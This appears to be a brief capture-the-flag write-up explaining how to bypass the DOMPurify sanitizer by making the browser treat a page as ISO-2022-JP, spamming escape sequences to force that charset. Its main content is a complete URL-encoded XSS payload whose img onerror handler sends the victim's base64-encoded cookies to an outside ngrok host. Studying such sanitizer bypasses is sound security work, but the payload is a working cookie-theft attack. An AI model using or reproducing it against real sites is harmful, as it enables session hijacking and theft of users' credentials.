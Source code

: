 We can bypass DOMPurify by using ISO-2022-JP character set.

However, the emoji on the page make the browser assume we are not using this Japanese charset. As such, we can spam escape sequences and convince the browser that we are indeed using the Japanese charset.

A more detailed explanation: https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/

Somewhat similar to the examples listed there however you apply the same idea to DOMPurify as a bypass and this article doesn't really mention the idea of spamming the escape sequences.

Payload:

http://127.0.0.1/search?search=%3Ca%20id=%22%1b$B%22%3E%3C/a%3E%1b(B%3Ca%20id=%22%3E%3Cimg%20src=a%20onerror=window.location.href=`https://b7ff-81-102-22-188.ngrok-free.app/${btoa(document.cookie)}`%3E%22%3E%3C/a%3E%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B%1b$B%1b(B
